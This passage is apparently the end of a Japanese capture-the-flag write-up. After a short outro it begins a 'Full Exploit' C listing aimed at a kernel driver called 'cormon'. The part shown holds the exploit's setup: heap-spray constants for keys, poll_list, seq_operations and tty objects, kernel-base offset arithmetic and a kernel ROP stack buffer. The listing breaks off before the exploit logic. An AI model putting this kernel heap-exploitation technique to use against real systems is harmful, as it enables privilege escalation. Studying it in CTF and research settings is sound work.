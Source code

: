 
# アウトロ

![](https://hackmd.io/_uploads/B1iKq7JZi.gif)


うおうおふぃっしゅらいふ。

# Full Exploit

```exploit.c
#include "./exploit.h"
#include <bits/pthreadtypes.h>
#include <keyutils.h>
#include <pthread.h>
#include <sys/mman.h>
#include <unistd.h>

/*********** commands ******************/
#define DEV_PATH "/proc_rw/cormon"   // the path the device is placed

/*********** constants ******************/
#define DESC_KEY_TOBE_OVERWRITTEN_SEQOPS "exploit0"
#define SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS 0x8
#define NUM_KEY_SPRAY (0x60)
#define NUM_2ND_KEY_SPRAY (NUM_KEY_SPRAY * 2)
#define NUM_3RD_KEY_SPRAY (0x10 + 0x8)
#define NUM_3RD_KEY_SIZE (0x290)

#define NUM_PREPARE_KM32_SPRAY 2000

#define NUM_POLLFD (30 + 510 + 1) // stack, kmalloc-4k, kmalloc-32
#define NUM_1ST_POLLLIST_ALLOC (0x10 - 0x1 + 0x1)
#define NUM_2ND_POLLLIST_ALLOC (0x120 + 0x20 + 0x40 + 0x40 + 0x40 + 0x200)
#define TIMEOUT_POLLFD 2000 // 2s

#define NUM_TTY_SPRAY (0x100)

#define NUM_SEQOPERATIONS (NUM_1ST_POLLLIST_ALLOC + 0x100)
#define NUM_FREE_SEQOPERATIONS (0x160)

#define KADDR(addr) ((ulong)addr - 0xffffffff81000000 + kbase)

/*********** globals ******************/

int cormon_fd;
int just_fd;
key_serial_t keys[NUM_KEY_SPRAY * 5] = {0};
int seqops_fd[0x500];
int tty_fd[NUM_TTY_SPRAY * 2];
char *cormon_buf[0x1000 + 0x20] = {0};
pthread_t threads[0x1000];
int num_threads = 0;
pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;

ulong kbase = 0;
int neverend = 0;

char *krop_stack = NULL;
#define KROP_USTACK_SIZE 0x10000

/*********** utils ******************/

```